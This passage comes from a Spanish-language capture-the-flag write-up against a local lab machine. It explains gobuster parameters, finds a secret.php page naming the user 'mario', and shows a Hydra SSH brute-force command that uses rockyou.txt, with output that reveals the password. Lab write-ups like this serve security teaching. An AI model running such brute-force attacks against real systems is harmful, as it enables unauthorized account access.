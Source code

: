 
### Explicación de los parámetros:

- `-u`: URL objetivo.
- `-w`: Wordlist a usar. En este caso, una lista grande de Seclists.
- `-x`: Extensiones a probar: `.txt`, `.php`, `.html`, `.py`.
- `-t`: Número de hilos paralelos 40 para mayor velocidad.

#### Resultados relevantes:

```bash
/index.html           (Status: 200)
/secret.php           (Status: 200)
/server-status        (Status: 403)
/.php                 (Status: 403)
/.html                (Status: 403)
```

Encontramos una página interesante: `secret.php`.

## **Inspección de `secret.php`**

Al visitar `http://172.18.0.2/secret.php`, la página muestra un mensaje curioso:

<img width="1262" height="612" alt="Image" src="https://github.com/user-attachments/assets/5085604e-4bfb-4bac-a997-06d6531fa612" />

Este mensaje sugiere la existencia de un usuario llamado **mario**, lo cual nos da una **pista directa de un posible nombre de usuario para acceso SSH**.

## **Ataque de fuerza bruta SSH con Hydra**

Ya que el puerto **22/SSH** estaba abierto y teníamos un posible nombre de usuario (`mario`), decidimos lanzar un ataque de fuerza bruta con `hydra` para descubrir su contraseña.

Usamos la famosa wordlist `rockyou.txt`, que contiene millones de contraseñas comunes:

```bash
zikuta㉿zikuta)-[~/Downloads/trust]
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-08 18:27:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
^Z
zsh: suspended  hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```
